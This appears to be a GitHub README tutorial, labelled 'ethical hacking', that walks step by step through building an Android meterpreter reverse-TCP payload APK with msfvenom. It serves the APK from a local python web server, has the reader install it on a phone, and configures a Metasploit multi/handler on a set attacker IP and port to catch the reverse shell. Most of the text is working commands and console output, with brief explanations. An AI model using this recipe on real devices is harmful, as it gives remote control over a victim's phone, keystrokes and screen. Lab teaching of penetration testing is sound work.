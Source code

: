 # Ethical-Hacking

In these practices we will put in the form of code and a step-by-step explanation of each practice.

## First Practice

### msfvenom apk

In this first practice we will use msfvenom to create an application which will aim to control an Android device for ethical purposes.


#### Escalate privileges
**┌──(kali㉿CarlosSantos)-[~]**
**└─$** `sudo -s`


#### We check what our hostname is
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `hostname -I`



 >[!INFO]
 >
 >If you do not have kali metasploit installed on your system, you must install it `sudo apt install metasploit-framework`


#### We use msfvenom
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `msfvenom -p android/meterpreter/reverse_tcp LHOST=172.27.4.239 LPORT=443 -o practice.apk`

1. *msfvenom: Es el nombre del comando que invoca la herramienta msfvenom. **-p***

1. *`android/meterpreter/reverse_tcp`: Specifies the payload to use in the APK file. In this case, the `android/meterpreter/reverse_tcp` payload is used, which allows establishing a reverse TCP connection on Android devices.*

1. *LHOST=172.27.4.239: Specifies the IP address of the host (the machine running the server) to which the Metasploit payload will connect. In this case, the IP address is 172.27.4.239*

1. *LPORT=443: Specifies the port number on the host that the Metasploit payload will connect to. In this case, the port is 443, which is commonly used for secure HTTPS connections.*

1. **-o** *practice.apk: Especifica el nombre del archivo de salida, es decir, el nombre del archivo APK malicioso que se generará. En este caso, el archivo se llamará practice.apk.*


#### We create a local server with python3
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `python3 -m http.server 80`



   >[!IMPORTANT]
   >
   >Remember to connect to the server with your android, in this case they must be on the same network since the server is local, just like our attack.
   >Install practice.apk in your android


#### Running the msfconsole
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `msfconsole`

1. *Running the msfconsole command will open an interactive console where you can use a wide range of Metasploit functionality. From this console, you can load and configure modules, select and configure exploits, scan and enumerate systems, launch attacks, and perform penetration testing on networks and systems.*

#### Running the /multi/handler
**msf6 >**  `use /multi/handler`
**[*] Using configured payload generic/shell_reverse_tcp msf6 exploit(multi/handler) >**

1. *This command is used to select the multi/handler module, which is a special module in Metasploit that is used to handle reverse shell or meterpreter connections. That is, it is the module that listens to and handles incoming connections from payloads that have been executed on the target systems.*


#### set payload
**msf6 exploit(multi/handler) >** `set payload android/meterpreter reverse_tcp`
**payload => android/meterpreter/reverse_tcp**

1. *The set payload android/meterpreter/reverse_tcp command is used in the msfconsole command line interface of the Metasploit Framework.*

**This command configures the payload to be used in the currently selected module. In this case, the payload is android/meterpreter/reverse_tcp.*

**Here is the meaning of each part of the payload:*

**android: Indicates that the payload is designed for Android systems.*
**meterpreter: It is an advanced and versatile Metasploit shell that provides a number of features, such as the ability to migrate between different processes, load scripts and extensions at runtime, and capture keyboard and screen input.reverse_tcp: This is a type of connection in which the target machine establishes the connection back to the attacker (i.e. "reverse"), which can be useful for bypassing certain types of firewalls.*


#### show options
**msf6 exploit(multi/handler) >** `show options`

*Module options (exploit/multi/handler):*

   **Name**  **Current** **Setting**  **Required**  **Description**
   ----  ---------------  --------  -----------


**Payload options (android/meterpreter/reverse_tcp):**

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface
                                      may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.



* *This command displays the options available for the currently selected module. These options can include details such as the IP address and port of the target host, the IP address and port of the local host, credentials to authenticate to the target host, and more.*


#### listening mode
**msf6 exploit(multi/handler) >** `set LHOST 172.27.4.239`
**LHOST => 172.27.4.239**
**msf6 exploit(multi/handler) >** `set LPORT 443`
**LPORT => 443**
**msf6 exploit(multi/handler) >** `run`

>[!IMPORTANT]
>
>Until the Android enters the application, nothing will happen after it enters, we are in listening mode and through that action we will enter the phone



* set LHOST 172.27.4.239: This command sets the LHOST (Local HOST) option, which is the IP address of the local machine (that is, the attacker's machine). This will be the IP address that the target system will try to connect to. In this case, it is set to 172.27.4.239.

* set LPORT 443: This command sets the LPORT (Local PORT) option, which is the port on the local machine that will listen for incoming connections from the target system. In this case, it is set to 443, which is commonly used for secure HTTPS connections.

* run: This command runs the exploit module with the configured options. In this case, the multi/handler module will start listening for incoming connections on the specified IP address and port.

